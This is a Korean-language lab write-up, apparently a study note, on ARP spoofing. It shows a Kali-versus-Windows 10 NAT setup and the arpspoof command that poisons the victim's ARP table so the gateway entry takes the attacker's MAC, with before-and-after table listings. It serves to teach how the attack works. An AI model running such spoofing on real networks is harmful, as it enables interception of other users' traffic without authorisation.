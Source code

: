 # ARP Spoofing

## 개요

- MAC Address를 속여 LAN에서의 통신 흐름을 왜곡시키는 기법을 말한다.
- ARP 테이블이 바뀌면 경고를 보내는 툴을 통해 어느 정도는 예방할 수 있지만 근본적으로 TCP/IP 프로토콜 자체의 문제이기 때문에 ARP Spoofing에 대한 보안 대책은 없다.

### ARP 테이블
- IP주소와 해당 주소에 대한 MAC Address 목록을 말한다.
- 'cmd'창에서 'arp -a' 를 통해서 확인할 수 있다.

## 실습 1. 기본 실습
### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.2
- Victim(Windows 10)    192.168.10.130 / c / 192.168.10.2 / 192.168.10.2
``` 

```
[samadal@kali ~]$ sudo ip link show eth0
[sudo] password for samadal:
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 00:0c:29:b2:04:58 brd ff:ff:ff:ff:ff:ff

[samadal@kali ~]$ sudo arp -a
_gateway (192.168.10.2) at 00:50:56:e0:28:a3 [ether] on eth0
? (192.168.10.1) at 00:50:56:c0:00:08 [ether] on eth0

[samadal@kali ~]$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.10.134  netmask 255.255.255.0  broadcast 192.168.10.255
        inet6 fe80::20c:29ff:feb2:458  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b2:04:58  txqueuelen 1000  (Ethernet)
        RX packets 186  bytes 29318 (28.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 149  bytes 20777 (20.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3

```  
## ARP Spoofing을 이용한 MAC Address 변경

```
sudo dsniff
```
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- 명령어 실행 전
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3
```
![전](./img/스푸핑img/1.png)
- 명령어 실행 후
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:0c:29:b2:04:58
```
![후](./img/스푸핑img/2.png)

## 결론
- 공격을 하고 있는 동안만 MAC Address가 변경된다.
